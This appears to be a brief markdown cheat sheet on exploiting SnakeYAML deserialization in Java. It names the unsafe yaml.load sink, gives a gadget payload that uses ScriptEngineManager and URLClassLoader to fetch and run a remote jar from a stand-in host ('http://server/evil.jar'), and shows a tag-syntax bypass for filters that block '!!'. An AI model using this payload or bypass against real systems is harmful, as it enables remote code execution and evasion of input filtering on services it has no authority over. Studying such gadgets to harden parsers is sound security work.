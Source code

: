 # SnakeYaml
## Sink
  - yaml.load(input);

## gadget
 Using !! to specify the class:
```
!!javax.script.ScriptEngineManager[
  !!java.net.URLClassLoader[[
    !!java.net.URL["http://server/evil.jar"]
  ]]  
 ]
```
## bypass
- "!!" not allowed : trace the ! parse logic of snakeYaml
   - !<tag:yaml.org,2002:javax.script.ScriptEngineManager>
